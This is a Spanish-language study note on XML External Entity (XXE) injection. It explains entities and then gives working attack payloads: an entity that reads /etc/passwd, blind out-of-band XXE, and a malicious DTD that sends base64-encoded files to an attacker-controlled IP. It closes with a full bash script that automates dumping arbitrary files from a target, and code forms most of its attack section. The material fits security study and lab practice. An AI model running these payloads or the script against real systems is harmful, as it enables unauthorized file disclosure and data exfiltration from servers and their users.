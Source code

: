 ----
- Tags: #ataque #basico #ataques 
----

# ¿ Que es XML?

### **XML** es un metalenguaje que permite definir lenguajes de marcas desarrollado por el World Wide Web Consortium utilizado para almacenar datos en forma legible.

### XML (E**X**tensible **M**arkup **L**angague) se encarga de almacenar y transportar datos siguiendo una estructura de arbol.
![[xml.png]]

----

# Entidades 

### Las **entidades** son una forma de representar a un elemento de datos , sin referenciar a los datos, esto en un documento XML.

### Existen entidades **Genericas / Customizadas**, **Externas (XXE)**, **Predefinidas (&lt, &gt)]**. 

----

# ¿ Que es un XXE?

### Un **XML External Entitiy Injection** o **XXE**, a lo que nos referimos es a una vulnerabilidad de seguridad en la que un atacante puede utilizar una entrada XML maliciosa para acceder a revursos del sistema que normalmente no estarían disponibles, como archivos locales o servicios de red. Esta vulnerabilidad puede ser explotada en aplicaciones que utilizan XML para procesar entradas, como apliacciones web o servicios web. 

### Un ataque **XXE** mayormente implica la inyección en una **entidad** XML maliciosa en una solicitud HTTP, que es procesada por el servodpr y puede resultar en la xposición de información sensible. Como en la mayoria de vulnerabilidades, esta vulnerabilidad se da cuando el servidor web no valida adecuadamente la entrada de datos XML que recibe.

### Con **XXE** no siempre se obtiene una exposición directa de información sensible en la respuesta, si no que aveces el atacante al igual qeu con las [[SQLI - (Inyecciones SQL)]] el atacante debe ir a "**ciegas**" a través de tecnicas adicionales. Esto puede ser más lento y requiere más trabajo que una explotación directa. sin embargo, puede ser efectivo en casos donde el atacante tiene una idea geenral de los recursos disponibles en el sistema y desea obtener información específica sin ser detectado. 

### A si tambien, muchas veces el **XXE** puede ser utilizado como un vector de ataque para explotar una vulnerabilidad [[SSRF - (Server-Side Request Forgery)]] para escanear puertos internos.

----

# Ataque 

### Por ejemplo, si tuvieramos la sig petición en XML: 

```xml 
<?xml version="1.0" encoding="UTF-8"?>
<root>
	<name>dobliuw</name>
	<tel>11142131241</tel>
	<email>dobliuw@dobliuw.com</email>
	<password>dobliuw123</password>
</root>
```

### Jugando con un **DTD** (Document Type Definition) y entidades Externas podemos explotar la vulnerabilidad

```xml 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY name "dobliuw" >]>
<root>
	<name>dobliuw</name>
	<tel>11142131241</tel>
	<email>&name;</email>
	<password>dobliuw123</password>
</root>
```

### En este caso vemos que somos capaces de crear una entidad con `<!DOCTYPE foo [<!ENTITY name "dobliuw" >]>` y  hacer que el valor de tome en donde va el email con `&name`, en este caso es name por que la entidad definida se llama name

```xml 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY myFile SYSTEM "file:///etc/passwd" >]>
<root>
	<name>dobliuw</name>
	<tel>11142131241</tel>
	<email>&myFile;</email>
	<password>dobliuw123</password>
</root>
```

### Ahora, esto de llamar la entidad dentro de la estructura xml puede ser que no funcione, por lo que existe el concepto de **XEE OOB Blind (XML External Entity Out of Band a ciegas)** por lo que para explotarla podriamos ver si se logra hacer una petción http a nuestra maquina.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % myFile SYSTEM "http://192.168.1.38" > %myFile; ]>
<root>
	<name>dobliuw</name>
	<tel>12314124</tel>
	<email>dobliuw@dobliuw.com</email>
	<password>dobliuw123</password>
</root>
```

### En ese caso, podriamos intentar llamar a un archivo en concreto, por ejemplo un "malicious.dtd" con una estructura de entidades para dumpear archivos del sistema de la maquina, recibiendo los archivos como petición http con su cadena en base64. 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % myFile SYSTEM "http://192.168.1.38/malicious.dtd" > %myFile; ]>
<root>
	<name>dobliuw</name>
	<tel>12314124</tel>
	<email>dobliuw@dobliuw.com</email>
	<password>dobliuw123</password>
</root>
```

#### Malicious.dtd:
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://192.168.1.38/?file=%file;'>">
%eval;
%exfil; 
```

### Y obviamente, explotando nuestras habilidades de atacante, más que claro esta que podriamos crearnos un script en python, bash o cualquier lenguaje para automatizar esto al punto de simplemente escribir un archivo a dumpear y que se dumpee. Asi como tambien es importante tener en cuenta que podriamos realizar un [[SSRF - (Server-Side Request Forgery)]] con las **XXE**. 

```shell
#!/bin/bash 

function ctrl_c(){
	echo -e "\n\n\t[!] Quiting...\n\n"
	kill -9 $PID 
	wait $PID 2>/dev/null 
	/usr/bin/rm -f response
	/usr/bin/rm -f malicious.dtd 
	exit 1 
}

trap ctrl_c SIGINT

if [ $EUID -ne 0 ]; then 
	echo -e "\n\n\t[!] The scrip need runs like root :)\n\n"
else 
  python3 -m http.server 80 &>response &   # Levantamos en segundo plano un servidor http
  PID=$! # Guardamos en la variable PID el PID del proceso para al realizar ctrl c matarlo
  sleep 2 

  while true; do  
  
  echo -ne "\n[!] Introduce el archivo a leer: " && read -r file; # -r para que acepte espacios 
  
  evildtd="""
  <!ENTITY % file SYSTEM \"php://filter/convert.base64-encode/resource=$file\">
  <!ENTITY % eval \"<!ENTITY &#x25; exfil SYSTEM 'http://192.168.1.38/?file=%file;'>\">
  %eval;
  %exfil;""" # Estructura maliciosa para lograr el dumpeo de archivos 

  [[ -f "malicious.dtd" ]] && /usr/bin/rm malicious.dtd 
  echo "" > malicious.dtd
  echo $evildtd > malicious.dtd 


  # Automatizamos tambien la petición maliciosa
  /usr/bin/curl -s -X GET "http://localhost:5000/process.php" -d '<?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE foo [<!ENTITY % myFile SYSTEM "http://192.168.1.38/malicious.dtd" > %myFile; ]>
  <root><name>dobliuw</name><tel>12314124</tel><email>dobliuw@dobliuw.com</email><password>dobliuw123</password></root>' &>/dev/null 

  echo -e "\n[+] $file : " && /usr/bin/cat response | /usr/bin/tail -n 1 | /usr/bin/grep -oP "/?file=\K[^.*]+" | /usr/bin/base64 -d
  done 
fi 
```
